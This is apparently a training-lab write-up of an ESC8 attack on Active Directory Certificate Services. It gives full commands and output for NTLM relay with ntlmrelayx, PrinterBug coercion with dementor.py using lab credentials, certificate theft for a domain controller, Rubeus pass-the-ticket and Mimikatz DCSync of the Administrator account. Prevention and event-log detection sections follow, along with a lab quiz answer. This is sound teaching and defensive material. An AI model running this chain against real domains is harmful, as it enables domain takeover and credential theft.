




import RevealFlag from '@site/src/components/RevealFlag';

# Windows Attacks & Defense - Skills Assessment

## Description
Following up on the PKI-related attack scenario from the previous section, another attack we can abuse is relaying to `ADCS` to obtain a certificate, a technique known as `ESC8`.

Previously, we used `PrinterBug` and `Coercer` to make (or force) computers to connect to any other computer. In this scenario, we will utilize the `PrinterBug`, and with the received reverse connection, we will relay to `ADCS` to obtain a certificate for the machine we coerced.

---

## Questions

### `1. Replicate the attack described in this section and view the related 4886 and 4887 logs. Enter the name shown in the Requester field as your answer. (Format: EAGLE\....)`

<RevealFlag>{`EAGLE\DC2$`}</RevealFlag>

<br />

---

## Attack

```bash
ssh -X kali@10.129.149.88
```

### `Impacket-NTLMRelayx`

We begin by configuring `NTLMRelayx` to forward incoming connections to the HTTP endpoint of our Certificate Authority. As part of this configuration, we will specify that we want to obtain a certificate for the Domain Controller (a default template in AD, which Domain Controllers use for client authentication). The `--adcs` switch makes `NTLMRelayx` parse and displays the certificate if one is received:

```bash
impacket-ntlmrelayx -t http://172.16.18.15/certsrv/default.asp --template DomainController -smb2support --adcs
```

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

---

### `Print Spooler` bug

Now we need to get the Domain Controller to connect to us. We’ll use the `Print Spooler` bug and force a reverse connection to us (as we previously did in a previous lab). In this case, we are forcing `DC2` to connect to the Kali machine while we have `NTLMRelayx` listening in another terminal:

```bash
cd tools
```

```bash
python3 ./dementor.py 172.16.18.20 172.16.18.4 -u bob -d eagle.local -p Slavi123
```

```bash
[*] connecting to 172.16.18.4
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] done!
```

> If we switch back to terminal of `NTLMRelayx`, we will see that an incoming request from `DC2$` was relayed and a certificate was successfully obtained:

```bash
[*] SMBD-Thread-5 (process_request_thread): Received connection from 172.16.18.4, attacking target http://172.16.18.15
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://172.16.18.15 as EAGLE/DC2$ SUCCEED
[*] SMBD-Thread-7 (process_request_thread): Connection from 172.16.18.4 controlled, but there are no more targets left!
[*] SMBD-Thread-8 (process_request_thread): Connection from 172.16.18.4 controlled, but there are no more targets left!
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 57
[*] Base64 certificate of user DC2$: 
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
```

---

### `Rubeus.exe`

```bash
xfreerdp /v:172.16.18.25 /u:bob /p:Slavi123 /cert:ignore /compression +clipboard +fonts /network:auto /dynamic-resolution
```

```powershell
.\Rubeus.exe asktgt /user:DC2$ /ptt /certificate:
```

> We have now obtained a `TGT` for the `Domain Controller DC2`. Therefore we become `DC2`. Being a Domain Controller, we can now trigger `DCSync` with `Mimikatz`:

---

### `Mimikatz`

```powershell
.\mimikatz_trunk\x64\mimikatz.exe "lsadump::dcsync /user:Administrator" exit
```

---

## Prevention

The above attack was possible because:

- We managed to `coerce DC2` successfully
- `ADCS` web enrollment does `not enforce HTTPS` *(otherwise, relaying would fail, and we won't request a certificate)*

Because there are many different PKI-related escalation techniques, it is highly advised to regularly scan the environment with `Certify` or other similar tools to find potential issues.

---

## Detection

This attack provides multiple techniques for detection. If we start from the part where a certificate is requested by `NTLMRelayx`, we will see that the CA has flagged both the request and the issuer of the certificate in events ID [4886](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4886) and [4887](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4887), respectively:





What stands out is that t**he template name is mentioned as part of the request**; however, it isn't if requested by the Domain Controller itself (not relaying). There may be some exceptions to this in an environment; thus, it is best to check if it could be used as an indicator of flagging, coercing/relaying attacks to `ADCS`.

Subsequently, in the attack, **we utilized the obtained certificate to get a** `Kerberos TGT`, which resulted in the [event ID 4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4768):



It stands out that `XX` is attempting to log in with a certificate, and the `IP address` is `not` the `DC`'s.

Finally, when we used `Mimikatz` to perform `DCSync`, we will see the [event ID 4624](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4624) that indicates `XX` **authenticated successfully from another** `IP address` and **not it is own**:



